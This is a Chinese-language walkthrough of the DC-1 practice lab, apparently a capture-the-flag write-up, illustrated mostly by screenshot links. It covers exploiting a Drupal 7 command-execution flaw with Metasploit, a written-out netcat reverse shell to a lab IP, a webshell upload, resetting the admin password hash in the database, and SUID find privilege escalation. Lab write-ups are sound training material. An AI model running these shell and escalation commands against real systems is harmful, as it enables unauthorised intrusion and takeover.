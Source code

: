 # DC-1
# 信息收集
nmap扫描
![](vx_images/490945331273623.png)
访问80
是一个drupal的网站
技术架构
![](vx_images/259888779927740.png)
drupal7存在命令执行漏洞
使用msf
search Drupal
选择,模块
![](vx_images/11961674869808.png)
设置目标
![](vx_images/63623309675679.png)
找到flag1提示,找到cms的配置文件
![](vx_images/228186393218879.png)
找到第二个提示
![](vx_images/167406432687090.png)
找到数据库访问凭据和密码hash的盐
![](vx_images/319724918191475.png)
rupal_hash_salt = 'X8gdX7OdYRiBnlHoj0ukhtZ7eO4EDrvMkhN21SWZocs';
![](vx_images/568234402405076.png)
查看端口开放情况
![](vx_images/490084037231852.png)
尝试连接数据库
msf上连接数据库没回显,解决的话就尝试用webshell上的功能
还可以使用交互式shell解决
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.111.128 4444 > /tmp/f
python -c 'import pty;pty.spawn("/bin/bash")'     //如果发现对方机器上有 python 的话
用msf的上传文件功能上传个哥斯拉马
![](vx_images/440325772103563.png)
连接数据库
![](vx_images/508224967041247.png)
找到用户表,看看能不能用之前的盐来解这个hash,或者更改其密码
![](vx_images/52383864852946.png)
hash能解,但是还有别的方法,比如:根据官方的方法重置密码
1.注册账户将新账户的密码hash覆盖damin
2.重置为admin密码
php scripts/password-hash.sh admin
![](vx_images/37277327799131.png)
数据库修改密码
![](vx_images/500048353640898.png)
成功登录,找到flag3
![](vx_images/37446613264142.png)
需要提权,用到-exec,可能用到suid提权的find方法.先查找那些命令能提权
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null
![](vx_images/257176160380962.png)
果然find命令可以提权
![](vx_images/328827083144039.png)


find / -name 1.txt -exec "/bin/sh" \;进入shell,找到flag
![](vx_images/350024595514526.png)



